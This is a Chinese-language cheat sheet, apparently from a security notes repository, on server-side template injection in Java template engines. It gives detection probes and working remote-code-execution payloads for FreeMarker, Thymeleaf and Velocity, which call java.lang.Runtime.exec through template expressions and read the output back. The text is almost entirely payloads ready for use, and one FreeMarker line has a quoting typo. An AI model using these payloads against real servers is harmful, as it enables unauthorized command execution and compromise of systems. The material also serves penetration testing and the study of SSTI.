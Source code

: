 ##### 框架探测

1. 使用`${7*7}`或`#{7*7}`,如果返回49，则基本可以确认存在模板注入漏洞。
2. 使用特殊字符等方式去尝试报错：
   1. `${{<％[％’”}}％\`
   2. 如果引发了报错，则可能存在问题，同时还可能爆出模板引擎是什么，有时甚至是哪个版本。

##### POC

```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id)}
```

#### Thymeleaf

`[[${9*9}]]`

控制层用的是@Controller 进行注解的话，使用如下的payload 即可触发命令执行。

```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
// URL编码
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22whoami%22).getInputStream()).next()%7d__::.x

// 回显
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::

__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("touch executed").getInputStream()).next()}__::
```

##### POC

```java
[[${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("sleep 5").waitFor()}]]
```

#### Velocity

Velocity是一个基于Java的模板引擎，它提供了一个模板语言去引用由Java代码定义的对象。它允许web 页面设计者引用JAVA代码预定义的方法

##### POC

`Payload => #set($var=2*3)$var`

##### 回显

```java
// 无回显
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("open -a Calculator")

#set($x='')##
#set($rt = $x.class.forName('java.lang.Runtime'))##
#set($chr = $x.class.forName('java.lang.Character'))##
#set($str = $x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('id'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach( $i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end

#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
```